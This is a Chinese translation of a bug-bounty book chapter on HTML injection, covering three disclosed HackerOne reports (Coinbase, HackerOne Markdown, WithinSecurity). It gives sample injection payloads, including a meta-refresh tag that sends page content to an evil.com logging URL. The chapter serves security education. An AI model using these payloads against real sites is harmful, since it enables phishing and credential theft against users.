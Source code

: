 ## **五、HTML 注入**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**
超文本標記語言（HTML）注入有時也被稱為虛擬污染。這實際上是一個由站點造成的攻擊，該站點允許惡意用戶向其 Web 頁面注入 
<br>
HTML，並且沒有合理處理用戶輸入。換句話說，HTML 注入漏洞是由接收 HTML 
<br>
引起的，通常通過一些之後會呈現在頁面的表單輸入。這個漏洞是獨立的，不同於注入 Javascript，VBscript 等。
<p>
由於 HTML 是用於定義網頁結構的語言，如果攻擊者可以注入 HTML，它們基本上可以改變瀏覽器呈現的內容。有時，這可能會導致頁面外觀的完全改變，
<br>

或在其他情況下，創建表單來欺騙用戶，例如，如果你可以注入HTML，你也許能夠將`<form> `
<br>
標籤添加到頁面，要求用戶重新輸入他們的用戶名和密碼。然而，當提交此表單時，它實際上將信息發送給攻擊者。

---


### 1. Coinbase 評論
```
難度：低
URL： coinbase.com/apps
報告鏈接： https://hackerone.com/reports/104543
報告日期：2015.12.10
獎金：$200
```
描述：
對於此漏洞，報告者識別出 Coinbase 在呈現文本時，實際上在解碼 URI 的編碼值。對於那
<br>
些不熟悉它的人（我在寫這篇文章的時候），URI 中的字符是保留的或未保留的。根據維基
<br>
百科，保留字是有時有特殊意義的字符，如 `/` 和 `&` 。未保留的字符是沒有任何特殊意義的
<br>
字符，通常只是字母。

因此，當字符被 URI 編碼時，它將按照 ASCII 轉換為其字節值，並以百分號（`%`）開頭。所以，`/`變成`%2F`，`&`成為`%26`。另外，ASCII 
<br>
是一種在互聯網上最常見的編碼，直到 UTF-8 出現，它是另一種編碼類型。現在，回到我們的例子，如果攻擊者輸入 HTML：

```html
<h1> This is a test</h1>
```

Coinbase 實際上會將其渲染為純文本，就像你上面看到的那樣。但是，如果用戶提交了 URL 編碼字符，像這樣：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```
Coinbase 實際上會解碼該字符串，並渲染相應的字符，像這樣：

```
This is a test
```

使用它，報告者演示瞭如何提交帶有用戶名和密碼字段的 HTML 表單，Coinbase 會渲染他。如果這個用戶是惡意的，Coinbase 就會渲染一個表單，它將值提交給惡意網站來捕獲憑據（假設人們填充並提交了表單）。


>重要結論
>
>當你測試一個站點時，要檢查它如何處理不同類型的輸入，包括純文本和編碼文本。特別要注意一些接受 URI 編碼值，例如`%2f`>，並渲染其解碼值的站點，這裡是`/`。雖然我們不知道這個例子中，黑客在想什麼，它們可能嘗試了 URI 編碼限製字符，並註意到 Coinbase >會解碼它們。之後他們更一步 URL 編碼了所有字符。

[http://quick-encoder.com/url](http://quick-encoder.com/url) 是一個不錯的 URL 編碼器。你在使用時會注意到，它告訴你非限製字符不需要編碼，並且提供了編碼 URL 安全字符的選項。這就是獲取用於 COinbase 的相同編碼字符串的方式

---

### 2. HackerOne 無意識 HTML 包含
```
難度：中
URL：hackerone.com
報告鏈接：https://hackerone.com/reports/112935
報告日期：2016.1.26
獎金：$500
描述：
```

在讀完 Yahoo XSS 的描述（第七章示例四），我對文本編輯器中的 HTML 渲染測試產生了興
<br>
趣。這包含玩轉 HackerOne 的 Markdown 編輯器，在圖像標籤中輸入一些類似 `ismap=
"yyy=xxx"` 和 `"'test"` 的東西。這樣做的時候，我注意到，編輯器會在雙引號裡麵包含一個單
引號 - 這叫做懸置引號。
<p>
那個時候，我並沒有真正理解它的含義。我知道如果你在某個地方注入另一個單引號，兩個
<br>
引號就會被瀏覽器一起解析，瀏覽器會將它們之間的內容視為一個 HTML 元素，例如：
<br>

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```
使用這個例子，如果你打算注入一個 Meta 標籤：
```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```
瀏覽器會提交兩個引號之間的任何東西。<br />
現在，結果是，這個已經在 HackerOne 的 [#110578](https://hackerone.com/reports/110578)報告中由 [intidc](https://hackerone.com/intidc) 公開。<p>

看到它公開之後，我有一點失望。<br />
根據 HackerOne，它們依賴於 Redcarpet（一個用於 Markdown 處理的 Ruby 庫）的實現，<br />
來轉義任何 Markdown 輸入的 HTML 輸出，隨後它會通過 React 組件<br />
的 dangerouslySetInnerHTML 直接傳遞給 HTML DOM（也就是頁面）。此外，React 是一個<br />
JavaScript 庫，可用於動態更新 Web 頁面的內容，而不需要重新加載頁面。<p>
DOM 指代用於有效 HTML 以及 格式良好的 XML 的應用程序接口。<br />
本質上，根據維基百科，DOM 是跨平台並且語言無關的約定，用於展示 HTML、XHTML 和 XMl 中的對象，並與其交互。<p>
在 HackerOne 的實現中，它們並沒有合理轉義 HTML 輸出，這會導致潛在的漏洞。<br />
現在，也就是說，查看披露，我覺得我應該測試一下心得代碼。我返回並測試了這個：
```html
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```
它會變成
```html
<a title="'test" ismap="alert xss" yyy="test" ' ref="http://www.toronotwebsi\ tede
veloper.com">test</a>
```
你可以看到，我能夠將一堆 HTML 注入到 `<a>` 標籤中。<br />
所以，HackerOne 回滾了該修復版本，並重新開始轉義單引號了。
```
重要結論
僅僅是代碼被更新了，並不意味著一些東西修復了，而是還要測試一下。當部署了變更
之後，同時意味著新的代碼也可能存在漏洞。
此外，如果你覺得有什麼不對，一定要深入挖掘。我知道一開始的尾後引號可能是個問
題，但是我不知道如何利用它，所以我停止了。我本應該繼續的。我實際上通過閱讀
XSS Jigsaw 的 了解了 Meta 刷新利用。
```


---


### 3. WithinSecurity 內容偽造
```
難度：低

URL：withinsecurity.com/wp-login.php
報告鏈接：https://hackerone.com/reports/111094
報告日期：2015.1.16
獎金：$250
```
描述：
<p>
雖然內容偽造實際上和 HTML 注入是不同的漏洞，我也將其包含在這裡，因為它們擁有相似的本質，攻擊者讓一個站點渲染它們選擇的內容。
<p>
WithinSecurity 構建在 WordPress 平台之上，它包含登錄頁面withinsecurity.com/wp-login.php（這個站點已經合併到了 HackerOne 的核心平台中）。攻擊者註意到了在登錄過程中，如果發生了錯誤，WithinSecurity 就會渲染access_denied，同時對應 URL 中的error參數：

<pre>
https://withinsecurity.com/wp-login.php?error=access_denied
</pre>

注意到了這個，攻擊者嘗試修改`error`參數，並發現無論參數傳遞了什麼值，都會被站點渲染為錯誤信息的一部分，並展示給用戶。這裡是所用的示例：


<pre>https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked</pre>

WithinSecurity 內容偽造

這裡的關鍵是注意到 URL 中的參數在頁面中渲染。雖然他們沒有解釋，我可以假設攻擊者註意到了`access_denied`展示在了頁面上，但是也包含在 URL 中。這裡他們也報告了，漏洞也可以由一個簡單的測試，修改`access_denied`參數來找到。

>重要結論
>時刻關注傳遞並且渲染為站點內容的 URL 參數。他們可能就是攻擊者的機會，用於欺騙受害者來執行一些惡意動作。


## 總結
HTML 注入向站點和開發者展示了漏洞，因為他可以用於誤導用戶，並且欺騙它們來提交一些敏感信息，或者瀏覽惡意網站。就像釣魚攻擊那樣。
<p>
發現這些漏洞並不是通過僅僅提交 HTML，而是弄清楚站點如何渲染你的輸入文本，像是 URI 編碼的字符。而且，雖然內容偽造並不和 HTML 注入完全一樣，它也是類似的，因為它涉及讓一些輸入在 HTML 頁面中反映給受害者。攻擊者應該仔細尋找機會，來操縱 URL 參數，並讓它們在站點上渲染。